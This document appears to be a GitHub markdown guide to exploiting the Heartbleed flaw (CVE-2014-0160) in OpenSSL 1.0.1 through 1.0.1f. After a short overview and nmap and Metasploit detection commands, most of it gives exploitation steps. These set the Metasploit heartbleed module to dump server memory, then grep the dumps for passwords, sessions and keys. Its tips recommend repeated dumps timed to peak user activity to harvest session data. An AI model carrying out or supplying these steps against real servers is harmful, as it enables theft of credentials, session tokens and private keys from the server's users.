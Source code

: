 

## Overview

- **CVE**: CVE-2014-0160
- **Affected Versions**: OpenSSL 1.0.1 through 1.0.1f (excluding 1.0.1g)
- **Description**: Exploits a flaw in OpenSSL's heartbeat extension, allowing attackers to read up to 64 KB of server memory with each request.
- **Impact**: Exposes sensitive data such as:
    - User credentials
    - Session tokens
    - Private keys
    - Confidential data in memory

---

## Detection

### Using Nmap

```bash
# Scan for Heartbleed vulnerability
nmap --script ssl-heartbleed -p 443 <target_ip>
```

### Using Metasploit

```bash
use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS <target_ip>
set VERBOSE true
check
```

---

## Exploitation Steps

### 1. Verifying Vulnerability

```bash
# Confirm OpenSSL version on the target
nmap -sV --version-light -p 443 <target_ip>
```

### 2. Dumping Memory Using Metasploit

```bash
# Set up the exploit module
use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS <target_ip>
set ACTION DUMP  # Enables memory dump action
set VERBOSE true
run
```

### 3. Analyzing Dumped Memory

```bash
# Navigate to the location of dumped files
cd ~/.msf4/loot/

# Extract readable strings from the dump
strings <dumped_file>.bin > readable_dump.txt

# Search for potential sensitive data
grep -i "password" readable_dump.txt
grep -i "user" readable_dump.txt
grep -i "session" readable_dump.txt
grep -i "key" readable_dump.txt
```

---

## Tips for Effective Exploitation

1. **Multiple Dump Attempts**
    
    - Memory content changes over time.
    - Perform several dumps to increase chances of finding useful data.
2. **Key Data to Look For**
    
    - Authentication credentials
    - Session tokens
    - Private keys
    - Email addresses
    - Form submission data
3. **Time and User Activity**
    
    - Exploit during peak user activity to increase chances of retrieving valuable session data.
4. **Organize Findings**
    
    - Keep a record of dump attempts, including timestamps.
    - Save and categorize unique or sensitive data.

---

## Limitations

- Success depends on the data present in memory at the time of exploitation.
- Multiple attempts may be necessary to retrieve relevant information.
- Not all dumps will contain sensitive data.
- Exploitation attempts may be logged on the server.

---
